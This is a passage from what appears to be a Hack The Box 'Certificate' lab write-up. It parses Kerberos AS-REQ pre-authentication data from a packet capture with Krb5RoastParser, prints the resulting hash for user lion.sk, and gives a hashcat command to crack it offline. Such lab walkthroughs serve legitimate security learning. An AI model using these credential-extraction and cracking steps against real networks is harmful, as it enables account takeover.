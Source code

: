 <img src="assets/HTB/Certificate/image11.png" alt="Error loading image">

The capture contains Kerberos pre-authentication data that can be extracted for offline password cracking. To parse Kerberos packets from the .pcap and generate crackable hashes we used:

#### [Krb5RoastParser](https://github.com/jalvarezz13/Krb5RoastParser)

**Tool Description:** Krb5RoastParser is a tool designed to parse Kerberos authentication packets (AS-REQ, AS-REP and TGS-REP) from .pcap files and generate password-cracking-compatible hashes for security testing. By leveraging tshark, Krb5RoastParser extracts necessary details from Kerberos packets, providing hash formats ready for tools like Hashcat.


After parsing the PCAP we extracted a Kerberos pre-auth hash for user `lion.sk`:

```
                                         
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2/Krb5RoastParser]
└─$ python3 krb5_roast_parser.py ../WS-01_PktMon.pcap as_req
$krb5pa$18$Lion.SK$CERTIFICATE$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0
                                                                                                                                                             
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2/Krb5RoastParser]
└─$ 

```

Hash cracking (hashcat):

```
$krb5pa$18$Lion.SK$CERTIFICATE$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0
```

```
hashcat -m 19900 krb_hash /usr/share/wordlists/rockyou.txt
```
